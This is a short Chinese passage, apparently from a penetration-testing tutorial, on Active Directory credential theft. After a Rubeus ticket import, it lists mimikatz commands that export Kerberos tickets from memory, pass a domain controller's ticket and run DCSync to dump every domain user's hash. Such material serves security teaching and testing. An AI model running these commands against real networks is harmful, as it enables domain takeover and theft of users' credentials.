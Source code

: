 ![截图](056997110920991655ce0c87aa9ecc7d.png)

Rubeus 导入票据后，就可以导出域内用户 hash 了。如图所示：

![截图](fce1c430b579dd782b0cd05d434c2f87.png)

或者也可以使用 mimikatz 执行如下命令，导出内存中的票据，导出后的票据后缀为.kirbi，然后使用 mimikatz 直接导入这个.kirbi 票据，再导出域内用户 hash。

```
privilege::debug
#导出票据
sekurlsa::tickets /export
#导入票据
kerberos::ptt [0;21467]-2-1-60a10000-AD01$@krbtgt-XIE.COM.kirbi
#导出域内所有用户 hash
lsadump::dcsync /all /csv
```
